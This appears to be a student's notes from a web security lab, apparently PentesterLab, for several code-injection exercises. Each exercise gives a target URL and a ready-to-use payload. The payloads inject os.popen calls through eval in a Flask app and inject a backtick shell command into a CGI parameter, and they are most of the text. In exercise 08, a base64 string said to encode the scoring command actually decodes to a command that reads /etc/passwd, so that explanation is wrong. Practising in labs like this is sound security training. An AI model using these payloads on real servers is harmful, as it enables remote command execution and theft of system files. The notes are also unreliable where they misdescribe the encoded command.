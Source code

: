 chl: `/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`

exploit:
```
http://ptl-990cd328-4fe59cbc.libcurl.st/hello/hackerr"+os.popen('/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509').read() +"
```

notes:
- it is a python app
- it seems to be using `eval`
- to exploit, need to encode the url
- `os.sytem()` only returns a `status code`

### 07

chl:
/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509


url: 
`http://ptl-e01804a1-3d279451.libcurl.st/hello/hacker`

exploit:
`"+__import__('os').popen('/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509').read() +"`

notes:
- python application
- `os` was not loaded
- url has to be encoded

### 08
chl:
/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509

url:
`http://ptl-7fc82aee-40987409.libcurl.st/hello/hacker`

exploit: 
`"+str(__import__('os').popen(__import__('base64').b64decode('Y2F0IC9ldGMvcGFzc3dk')).read())+"`

notes:
- where `Y2F0IC9ldGMvcGFzc3dk` is `/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`
- the url has to be encoded
- if the `%2F` slash char is being rejected/parsed by the app, then encode the "rejected" part in base64
- the vulnerable app is the Flask (python) app routing

### 09

chl:
/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509

url:
http://ptl-f2dc2643-c482a93d.libcurl.st/cgi-bin/hello?name=

exploit:
test'.`/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`.'

